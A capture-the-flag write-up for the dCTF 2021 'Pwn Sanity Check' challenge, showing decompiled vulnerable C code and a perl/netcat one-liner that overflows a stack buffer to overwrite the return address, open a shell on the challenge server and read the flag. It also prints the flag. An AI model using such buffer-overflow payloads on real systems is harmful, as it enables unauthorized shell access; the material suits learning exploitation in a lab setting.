 Challenge: Pwn Sanity Check
<br>
Points: 100
<br>
Category: Pwn
<br>
Objective: Find the flag on the server with the help of a given file
<br>
Process to find the flag: So first of all I opened the given file on Ghidra and saw this.
```
void vuln(void)
{
  char local_48 [60];
  int local_c;
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
void shell(void)
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
  ```

To solve this we needed a python script, which would skip all the basic parameters and get us the flag.
So this is the python script that we wrote
```python
(perl -e 'print "\xdb\x06\x40\x00\x00\x00\x00\x00"x"32"."\n"';echo "cat flag.txt")|nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```
So basically the address the computer will go to after the function is right after the area we are reading data into. 
So we just overwrite the address and the data that is being repeated 32 times is the address.
The result of this command is 
<br><br>
![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/pwn/Pwn-sanity-check/result_pwn.png)
<br>
The flag: dctf{Ju5t_m0v3_0n}
